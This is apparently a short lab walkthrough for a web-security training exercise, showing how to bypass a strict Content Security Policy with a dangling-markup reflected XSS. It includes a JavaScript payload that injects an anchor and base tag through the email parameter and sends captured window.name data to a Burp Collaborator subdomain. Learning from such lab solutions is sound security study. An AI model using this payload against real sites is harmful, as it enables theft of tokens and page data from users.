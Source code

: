 # Lab: Reflected XSS protected by very strict CSP, with dangling markup attack

## Lab Description

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/5e22876a-1d30-4297-b2c3-9d27ff4fe42f)

## Solution

Log in using the given username and password.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/f90f2474-49c3-4d02-8fd6-cfb71a4fe8f8)

Go to burp collaborator, start it and click on **Copy to clipboard** to get a subdomain.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/d7bb04d0-34b5-475b-9643-b93882161a25)

Go to exploit server and in the body give the payload below.

```Javascript
<script>
if(window.name) {
		new Image().src='//BURP-COLLABORATOR-SUBDOMAIN?'+encodeURIComponent(window.name);
		} else {
     			location = 'https://YOUR-LAB-ID.web-security-academy.net/my-account?email=%22%3E%3Ca%20href=%22https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit%22%3EClick%20me%3C/a%3E%3Cbase%20target=%27';
}
</script>
```

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/61fa211f-64d8-4bd5-86b6-dcff33a900e0)
